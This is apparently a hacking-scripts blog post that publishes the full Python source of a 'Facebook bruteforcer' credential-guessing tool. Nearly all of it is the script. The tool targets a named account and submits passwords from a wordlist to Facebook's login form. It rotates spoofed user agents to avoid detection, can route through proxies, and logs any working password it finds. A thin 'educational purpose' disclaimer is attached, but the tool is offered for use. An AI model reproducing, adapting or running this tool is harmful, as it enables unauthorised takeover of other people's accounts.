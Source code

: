 ```yaml
---
id: 282
title: Facebook Bruceforcer Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=282
permalink: /facebook-bruceforcer-script/
categories:
  - Python
tags:
  - bruteforcer
  - facebook
  - Python
---
```

This Facebook Bruceforcer Script v1.0 was written in Python, by \*Cyb3rK!ng\*


### Facebok Bruteforcer Script Source Code

{% highlight python %}#!/usr/bin/python
# This is facebook bruteforcer tools
# This was written for educational purpose and pentest only. Use it at your own risk.
# Author will not be responsible for any damage !!
# Toolname  : facebookbruteforcer.py
# Programmer    : *Cyb3rK!ng*
# Version   : 1.0
# Date      : Tue Jul 27 13:24:44 WIT 2010
# Special Thanks to the weed I smoked that had inspired me!

import re
import os
import sys
import random
import warnings
import time
try:
    import mechanize
except ImportError:
    print "[*] Please install mechanize python module first"
    sys.exit(1)
except KeyboardInterrupt:
    print "\n[*] Exiting program...\n"
    sys.exit(1)
try:
    import cookielib
except ImportError:
    print "[*] Please install cookielib python module first"
    sys.exit(1)
except KeyboardInterrupt:
    print "\n[*] Exiting program...\n"
    sys.exit(1)

warnings.filterwarnings(action="ignore", message=".*gzip transfer encoding is experimental!", category=UserWarning)

# define variable
__programmer__  = "Cyb3rK!ng"
__version__     = "2.1"
verbose     = False
useproxy    = False
usepassproxy    = False
log     = 'fbbruteforcer.log'
file        = open(log, "a")
success     = 'http://www.facebook.com/?sk=messages&ref=mb'
fblogin     = 'https://login.facebook.com/login.php?login_attempt=1'
# some cheating ..
ouruseragent    = ['Mozilla/4.0 (compatible; MSIE 5.0; SunOS 5.10 sun4u; X11)',
        'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.2.2pre) Gecko/20100207 Ubuntu/9.04 (jaunty) Namoroka/3.6.2pre',
        'Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Avant Browser;',
        'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT 5.0)',
            'Mozilla/4.0 (compatible; MSIE 7.0b; Windows NT 5.1)',
            'Mozilla/5.0 (Windows; U; Windows NT 6.0; en-US; rv:1.9.0.6)',
            'Microsoft Internet Explorer/4.0b1 (Windows 95)',
            'Opera/8.00 (Windows NT 5.1; U; en)',
        'amaya/9.51 libwww/5.4.0',
        'Mozilla/4.0 (compatible; MSIE 5.0; AOL 4.0; Windows 95; c_athome)',
        'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)',
        'Mozilla/5.0 (compatible; Konqueror/3.5; Linux) KHTML/3.5.5 (like Gecko) (Kubuntu)',
        'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; ZoomSpider.net bot; .NET CLR 1.1.4322)',
        'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; QihooBot 1.0 qihoobot@qihoo.net)',
        'Mozilla/4.0 (compatible; MSIE 5.0; Windows ME) Opera 5.11 [en]'
        ]
facebook    = '''
  __               _                 _
 / _|             | |               | |
| |_ __ _  ___ ___| |__   ___   ___ | | __
|  _/ _` |/ __/ _ \ '_ \ / _ \ / _ \| |/ /
| || (_| | (_|  __/ |_) | (_) | (_) |   &lt;
|_| \__,_|\___\___|_.__/ \___/ \___/|_|\_\\
                    bruteforcer...

Programmer : %s
Version    : %s''' % (__programmer__, __version__)
option          = '''
Usage  : %s [options]
Option : -u, --username             |   User for bruteforcing
         -w, --wordlist             |   Wordlist used for bruteforcing
         -v, --verbose              |   Set %s will be verbose
         -p, --proxy           |   Set http proxy will be use
         -k, --usernameproxy        |   Set username at proxy will be use
         -i, --passproxy
    |   Set password at proxy will be use
         -l, --log          |   Specify output filename (default : fbbruteforcer.log)
         -h, --help                     |   Print this help

Example : %s -u brad@hackme.com -w wordlist.txt"

P.S : add "&" to run in the background
''' % (sys.argv[0], sys.argv[0], sys.argv[0])
hme         = '''
Usage : %s [option]
    -h or --help for get help
    ''' % sys.argv[0]

def helpme():
    print facebook
    print option
    file.write(facebook)
    file.write(option)
    sys.exit(1)

def helpmee():
    print facebook
    print hme
    file.write(facebook)
    file.write(hme)
    sys.exit(1)

for arg in sys.argv:
    try:
        if arg.lower() == '-u' or arg.lower() == '--user':
                    username = sys.argv[int(sys.argv[1:].index(arg))+2]
        elif arg.lower() == '-w' or arg.lower() == '--wordlist':
                    wordlist = sys.argv[int(sys.argv[1:].index(arg))+2]
            elif arg.lower() == '-l' or arg.lower() == '--log':
                    log = sys.argv[int(sys.argv[1:].index(arg))+2]
            elif arg.lower() == '-p' or arg.lower() == '--proxy':
                useproxy = True
                    proxy = sys.argv[int(sys.argv[1:].index(arg))+2]
            elif arg.lower() == '-k' or arg.lower() == '--userproxy':
                usepassproxy = True
                    usw = sys.argv[int(sys.argv[1:].index(arg))+2]
            elif arg.lower() == '-i' or arg.lower() == '--passproxy':
                usepassproxy = True
                    usp = sys.argv[int(sys.argv[1:].index(arg))+2]
        elif arg.lower() == '-v' or arg.lower() == '--verbose':
                    verbose = True
            elif arg.lower() == '-h' or arg.lower() == '--help':
                helpme()
        elif len(sys.argv) &lt;= 1:
            helpmee()
    except IOError:
        helpme()
    except NameError:
        helpme()
    except IndexError:
        helpme()

def bruteforce(word):
    try:
        sys.stdout.write("\r[*] Trying %s...                    " % word)
        file.write("[*] Trying %s\n" % word)
        sys.stdout.flush()
        br.addheaders = [('User-agent', random.choice(ouruseragent))]
        opensite = br.open(fblogin)
        br.select_form(nr=0)
        br.form['email'] = username
        br.form['pass'] = word
        br.submit()
        response = br.response().read()
        if verbose:
            print response
        if success in response:
            print "\n\n[*] Logging in success..."
            print "[*] Username : %s" % (username)
            print "[*] Password : %s\n" % (word)
            file.write("\n[*] Logging in success...")
            file.write("\n[*] Username : %s" % (username))
            file.write("\n[*] Password : %s\n\n" % (word))
            sys.exit(1)
    except KeyboardInterrupt:
        print "\n[*] Exiting program...\n"
        sys.exit(1)
    except mechanize._mechanize.FormNotFoundError:
        print "\n[*] Facebook changing their system, please report bug at yudha.gunslinger@gmail.com\n"
        file.write("\n[*] Facebook changing their system, please report bug at yudha.gunslinger@gmail.com\n")
        sys.exit(1)
    except mechanize._form.ControlNotFoundError:
        print "\n[*] Facebook changing their system, please report bug at yudha.gunslinger@gmail.com\n"
        file.write("\n[*] Facebook changing their system, please report bug at yudha.gunslinger@gmail.com\n")
        sys.exit(1)

def releaser():
    global word
    for word in words:
        bruteforce(word.replace("\n",""))

def main():
    global br
    global words
    try:
        br = mechanize.Browser()
        cj = cookielib.LWPCookieJar()
        br.set_cookiejar(cj)
        br.set_handle_equiv(True)
        br.set_handle_gzip(True)
        br.set_handle_redirect(True)
        br.set_handle_referer(True)
        br.set_handle_robots(False)
        br.set_debug_http(False)
        br.set_debug_redirects(False)
        br.set_debug_redirects(False)
        br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
        if useproxy:
            br.set_proxies({"http": proxy})
        if usepassproxy:
            br.add_proxy_password(usw, usp)
        if verbose:
            br.set_debug_http(True)
            br.set_debug_redirects(True)
            br.set_debug_redirects(True)
    except KeyboardInterrupt:
        print "\n[*] Exiting program...\n"
        file.write("\n[*] Exiting program...\n")
        sys.exit(1)
    try:
        preventstrokes = open(wordlist, "r")
        words          = preventstrokes.readlines()
        count          = 0
        while count &lt; len(words):
            words[count] = words[count].strip()
            count += 1
    except IOError:
        print "\n[*] Error: Check your wordlist path\n"
        file.write("\n[*] Error: Check your wordlist path\n")
        sys.exit(1)
    except NameError:
        helpme()
    except KeyboardInterrupt:
        print "\n[*] Exiting program...\n"
        file.write("\n[*] Exiting program...\n")
        sys.exit(1)
    try:
        print facebook
        print "\n[*] Starting attack at %s" % time.strftime("%X")
        print "[*] Account for bruteforcing %s" % (username)
        print "[*] Loaded :",len(words),"words"
        print "[*] Bruteforcing, please wait..."
        file.write(facebook)
        file.write("\n[*] Starting attack at %s" % time.strftime("%X"))
        file.write("\n[*] Account for bruteforcing %s" % (username))
        file.write("\n[*] Loaded : %d words" % int(len(words)))
        file.write("\n[*] Bruteforcing, please wait...\n")
    except KeyboardInterrupt:
        print "\n[*] Exiting program...\n"
        sys.exit(1)
    try:
        releaser()
        bruteforce(word)
    except NameError:
        helpme()

if __name__ == '__main__':
    main()
{% endhighlight %}
